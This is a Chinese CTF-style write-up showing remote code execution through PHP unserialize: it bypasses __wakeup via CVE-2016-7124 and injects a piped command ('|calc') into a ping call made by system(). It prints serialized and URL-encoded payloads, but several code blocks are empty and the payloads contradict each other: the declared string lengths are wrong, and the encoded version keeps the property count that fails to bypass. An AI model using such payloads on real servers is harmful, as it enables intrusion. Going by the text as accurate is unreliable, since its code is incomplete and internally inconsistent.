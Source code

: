 定义了一个class类，类中有两个私有变量method和args。

有三个魔术方法：

```
function __construct($method, $args)  //构造函数，当对象new的时候会自动调用，但在unserialize()时不会自动调用
```

  

分析代码段中host的来源，想办法利用system()构成RCE。

```
<?php
```

  

我们观察代码可知：

GET方法获取参数a，并且将其反序列化。

但是再执行反序列化的时候，会自动调用__wakeup()魔术方法，把args的值改为127.0.0.1。

无论我们怎么构造payload，system()执行的命令都是ping -c 2 127.0.0.1。

这时我们可以利用到CVE-2016-7124漏洞。

> 适用版本：PHP5<5.6.25、PHP7<7.0.1 当成员属性数目大于实际数码时可绕过__wakeup方法

  

就可以构造恶意payload来RCE。

这里还有个小知识点|管道符：

```
把一个命令的标准输出传送到另一个命令的标准输入中，连续的|意味着第一个命令的输出为第二个命令的输入，第二个命令的输入为第一个命令的输出。
```

![图片](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

所以我们可以构造序列化了：

```
<?php
```

```
O:4:"home":2:{s:12:" home method";s:4:"ping";s:10:" home args";a:1:{i:0;s:7:"|calc";}}
```

  

需要跳一下__wakeup()把成员属性数目改为3。

```
O:4:"home":3:{s:12:" home method";s:4:"ping";s:10:" home args";a:1:{i:0;s:7:"|calc";}}
```

  

URL编码一下：

```
O%3A4%3A%22home%22%3A2%3A%7Bs%3A12%3A%22%00home%00method%22%3Bs%3A4%3A%22ping%22%3Bs%3A10%3A%22%00home%00args%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A5%3A%22%7Ccalc%22%3B%7D%7D
```
